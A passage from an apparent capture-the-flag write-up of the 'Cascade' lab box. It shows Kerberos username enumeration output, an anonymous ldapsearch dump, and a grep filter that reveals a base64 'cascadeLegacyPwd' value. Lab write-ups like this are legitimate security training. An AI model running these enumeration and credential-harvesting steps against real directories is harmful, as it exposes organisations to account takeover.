 ## Port 88

```bash
2023/12/19 06:16:52 >  [+] VALID USERNAME:       s.hickson@cascade.local
2023/12/19 06:16:53 >  [+] VALID USERNAME:       j.goodhand@cascade.local
2023/12/19 06:16:52 >  [+] VALID USERNAME:       a.turnbull@cascade.local
2023/12/19 06:16:53 >  [+] VALID USERNAME:       j.wakefield@cascade.local
2023/12/19 06:16:53 >  [+] VALID USERNAME:       r.thompson@cascade.local
2023/12/19 06:16:56 >  [+] VALID USERNAME:       util@cascade.local
2023/12/19 06:16:56 >  [+] VALID USERNAME:       s.smith@cascade.local
2023/12/19 06:16:56 >  [+] VALID USERNAME:       arksvc@cascade.local
2023/12/19 06:16:58 >  [+] VALID USERNAME:       BackupSvc@cascade.local
2023/12/19 06:16:58 >  [+] VALID USERNAME:       j.allen@cascade.local
2023/12/19 06:16:58 >  [+] VALID USERNAME:       d.burman@cascade.local
```

## Port 386

Enumerating this service we will find some uncommon fields. First we dump the entire ldap tree into a file.

```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" > full_tree.txt
```

To filter by this uncommon fields we can use the following command.

```bash
┌──(kali㉿kali)-[~/machines/windows/cascade]
└─$ cat ldap/full_tree.txt| grep -vE "^dn|^dc|^objectClass|^objectClass|^objectClass|^objectClass|^cn|^sn|^ou|^givenName|^distinguishedName|^instanceType|^whenCreated|^whenChanged|^displayName|^uSNCreated|^memberOf|^uSNChanged|^name|^objectGUID|^userAccountControl|^badPwdCount|^codePage|^countryCode|^badPasswordTime|^lastLogoff|^lastLogon|^pwdLastSet|^primaryGroupID|^objectSid|^accountExpires|^logonCount|^sAMAccountName|^sAMAccountType|^userPrincipalName|^objectCategory|^dSCorePropagationData|^dSCorePropagationData|^dSCorePropagationData|^dSCorePropagationData|^dSCorePropagationData|^lastLogonTimestamp|^msDS-SupportedEncryptionTypes|^serverReference|^showInAdvancedViewOnly|^msDFSR-DirectoryFilter|^systemFlags|^#|^msDFSR-RootPath|^msDFSR-StagingPath|^msDFSR-Enabled|^msDFSR-Options|^msDFSR-ContentSetGuid|^msDFSR-ReplicationGroupGuid|^msDFSR-ReadOnly|^lastSetTime|^priorSetTime|^isCriticalSystemObject|^fSMORoleOwner|^rIDAvailablePool|^isCriticalSystemObject|^rIDAllocationPool|^rIDPreviousAllocationPool|^rIDUsedPool|^rIDNextRID|^member|^groupType|^scriptPath|^MemberReferenceBL|^ComputerReference|^FileFilter|^ReplicationGroupType|^ref|^msDFSR-MemberReference|^msDFSR-FileFilter|^servicePrincipalName|^dNSHostName:|^rIDSetReferences|^revision|^samDomainUpdates|^localPolicyFlags|^operatingSystem|^operatingSystemVersion|^operatingSystemServicePack|^creationTime|^forceLogoff|^lockoutDuration|^lockOutObservationWindow|^lockoutThreshold|^maxPwdAge|^minPwdAge|^minPwdLength|^modifiedCountAtLastProm|^nextRid|^pwdProperties|^pwdHistoryLength|^serverState|^uASCompat|^modifiedCount|^ipsecName|^ipsecID|^ipsecDataType|^ipsecData|^iPSECNegotiationPolicyType|^iPSECNegotiationPolicyAction|^ipsecID|^ipsecDataType|^ipsecData|^ipsecOwnersReference|^auditingPolicy|^description|^gPLink|^ipsecFilterReference|^ipsecISAKMPReference|^ipsecNFAReference|^ipsecNegotiationPolicyReference|^masteredBy|^ms-DS-MachineAccountQuota|^msDFSR-ComputerReference|^msDFSR-ComputerReferenceBL|^msDFSR-Flags|^msDFSR-ReplicationGroupType|^msDFSR-Version|^msDS-AllUsersTrustQuota|^msDS-Behavior-Version|^msDS-IsDomainFor|^msDS-NcType|^msDS-PerUserTrustQuota|^msDS-PerUserTrustTombstonesQuota|^msDS-TombstoneQuotaFactor|^msDs-masteredBy|^nTMixedDomain|^otherWellKnownObjects|^rIDManagerReference|^result|^search|^subRefs|^wellKnownObjects" | sed '/^$/d' | grep -E "^.*?:"
cascadeLegacyPwd: clk0bjVldmE=
```
